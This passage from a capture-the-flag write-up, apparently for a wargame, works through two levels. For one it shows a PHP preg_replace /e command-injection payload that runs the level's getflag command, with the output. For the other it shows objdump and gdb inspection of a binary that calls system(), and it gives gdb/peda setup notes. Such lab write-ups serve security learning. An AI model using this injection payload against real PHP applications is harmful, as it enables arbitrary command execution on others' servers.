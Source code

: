 some search about preg_replace in php showed there are many vulnerabilities in php built in handling of regex. http://www.madirish.net/402, 

/e is meant for execution and the code inside is replaced by the second string where y is the variable given to the function. I replace the function in $y with a call to getflag.

	echo '[x ${`getflag`}]' > /tmp/getflag
	./level06 /tmp/getflag

outputs:
> PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

## level07

home dir has an exec called level07
I did `objdump -d level07` to disassemble the binary and found `system@plt` which seems to be a system call in the function `main`, upon googling I find an exploit: 
https://github.com/Bretley/how2exploit_binary/blob/master/exercise-2/README.md
Following this I tried 

	gdb -q level07
	disas main

and find a more readable verion of main!

	objdump -d level07 | grep system

prints the system info info:

08048410 <system@plt>:
 804859a:	e8 71 fe ff ff       	call   8048410 <system@plt>


> ### gdb sidenote
Install/uninstall gdb-peda

	git clone https://github.com/longld/peda.git ~/peda
	echo "source ~/peda/peda.py" >> ~/.gdbinit

All the peda-gdb does is to modify the config file of gdb. This file is by default located at ~/.gdbinit.
use cat ~/.gdbinit can you peek how does peda do

Therefore, to go back to vanilla gdb, there are 2 solutions

	gdb --nx

This is a better way, since you may need peda someday

	rm -rf ~/.gdbinit

This will remove the config file of gdb, so what peda did will have no effect on your gdb now.

gdb
- info functions (prints functions)
- b*0x08048576 (breakpoint at 0x08048576)
- r (run)
- c (continue)
- p/x (print/execute)
- jump/next (next line)
- step (step)
- stepi (step into)
- x/s [ptr] (x/show)
- x/w [ptr] (x/write)

